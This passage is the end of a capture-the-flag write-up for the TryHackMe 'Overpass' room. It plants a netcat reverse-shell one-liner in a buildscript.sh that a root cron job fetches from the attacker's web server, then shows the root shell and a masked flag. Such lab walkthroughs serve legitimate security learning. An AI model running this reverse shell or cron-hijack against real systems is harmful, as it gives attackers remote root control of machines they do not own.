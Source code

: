 We can create our own "buildscript.sh" and save it in the path we have just created. Let's write a reverse shell in it :  
```
attacker@AttackBox:~/Documents/THM/CTF/Overpass/downloads/src$ echo '#!/bin/bash' > buildscript.sh
attacker@AttackBox:~/Documents/THM/CTF/Overpass/downloads/src$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.32.60 4242 >/tmp/f' >> buildscript.sh 
attacker@AttackBox:~/Documents/THM/CTF/Overpass/downloads/src$ cat buildscript.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.32.60 4242 >/tmp/f
attacker@AttackBox:~/Documents/THM/CTF/Overpass/downloads/src$
```

Let's setup a netcat listener on port 4242 : 
```
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ nc -lnvp 4242
listening on [any] 4242 ...
```

Now, we can start a webserver in the right diretory (where the "/downloads" directory is located) :  
```
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ sudo python3 -m http.server 80
[sudo] Mot de passe de attacker : 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.26.100 - - [19/Oct/2022 22:43:02] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

We just received a GET request ! Let's take a look at our netcat listener :  
```
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.26.100] 34114
sh: 0: can't access tty; job control turned off
# whoami     
root
#
```

We have a shell as root ! Let's get the root flag now :  
```
# ls
buildStatus
builds
go
root.txt
src
# cat root.txt
thm{*******************************}
# 
```

## Conclusion

In this room, I learned a new way to elevate our privileges (by exploiting a cron job that makes a GET request with a writable /etc/hosts). This room was very cool ! Thanks for this room ! 
And thanks for reading my write ups !
